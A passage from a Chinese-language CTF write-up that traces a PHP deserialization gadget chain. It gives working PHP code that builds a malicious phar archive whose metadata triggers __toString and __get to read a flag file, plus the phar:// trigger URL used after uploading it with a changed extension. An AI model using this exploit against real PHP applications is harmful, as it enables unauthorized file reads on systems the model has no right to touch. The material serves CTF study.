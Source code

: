 1. `highlight_file($this->source);`
2. `$text = base64_encode(file_get_contents($value));`

跟进第一处发现有所过滤
![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-10780885.png)

`f1ag`被ban，无法读取，看另外一处。

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-2480299101.png)

在`get()`函数下发现有调用`file_get()`,`__get()`调用了`get()`，现在需要找到调用不可访问对象的地方。

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-2434843641.png)

只要把Test实例化的对象存储在str的数组中，然后再去调用source属性（即Test中不存在的属性），就可以触发`__get()`了。现在找一找把对象当作字符串处理的地方。

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/04/2021-04-16-1513267936.png)

不出意外的找到了，整个利用链也十分清晰。
```php
<?php
class C1e4r
{
    public $str;
    public $test;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;

}

$demo1 = new C1e4r();
$demo2 = new Show();
$demo3 = new Test();
$demo3->params['source'] = "/var/www/html/f1ag.php";//目标文件
$demo2->str['str'] = $demo3;   //触发__tostring
$demo1->str = $demo2;  //触发__get;
echo serialize($demo1);

$phar = new Phar("2.phar"); //生成phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($demo1); //触发头是C1e4r类
$phar->addFromString("test.txt", "test"); //生成签名
$phar->stopBuffering();
?>
```
生成phar文件后，上传需要改后缀，然后直接读取即可。
```url
file.php?file=phar://./upload/c38d8861438aff49fb8385d9fd4df1e4.jpg
```

## 最后
其实`phar`兴起也是最近几年的事，到后来hitcon一年一题..其实考点都差不多，难的地方也是和其他内容打组合拳，下面还有一些关于phar的题目，感兴趣可以去试试。

- CISCN2019 Dropbox
- bytectf2019 ezcms
- hitcon···